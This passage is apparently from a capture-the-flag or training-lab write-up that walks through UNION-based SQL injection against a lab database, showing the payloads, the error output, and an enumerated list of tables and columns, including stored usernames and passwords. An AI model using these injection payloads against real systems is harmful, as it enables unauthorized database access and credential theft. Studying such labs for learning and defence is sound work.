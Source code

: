 ```sql
1 AND 1=0 UNION SELECT null, null FROM guestbook --
```

And we get the following result

```text
Table 'Member_Sql_Injection.guestbook' doesn't exist
```

It seems like our current (default) database is `Member_Sql_Injection`. There is only one `table` under `Member_Sql_Injection` that we can see on our list of `tables` and that is **users**

An other way to know which `database` we are currently using is using the following `query`

```sql
1 AND 1=0 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()) --
```

> The [`DATABASE()`](https://www.w3schools.com/SQL/func_mysql_database.asp) function returns the name of the current database. If there is no current database, this function returns NULL or "".


> The group_concat() function concatenates results into a string. The Information_schema is a database that stores information about other databases. The database() function returns the name of the current database.


## Get columns names

Let's try to find out how many columns does this table has

```sql
1 or 1 UNION select table_name, column_name FROM information_schema.columns --
```

And this also gives us a long list of `table` name and their `columns`. Here are the `tables` that is of our interest and their `column` names.

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`,  |
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|

> If you are wondaring how do we know that **this** are the `tables` that interests us, then know that all the other tables ware in all uppercase with generic names that we can always find in **default** configurations. Ofcores this does not mean an importent database can not have those kind of charactaristics.

> Remember that to acess tables from different database instead of using *only* the name of the table we have to precise teh database and then the name of the table in the following way `database.table_name`. So if we want to access to the table `list_images` from the database `Member_images` we have to use the following syntax `Member_images.list_images`
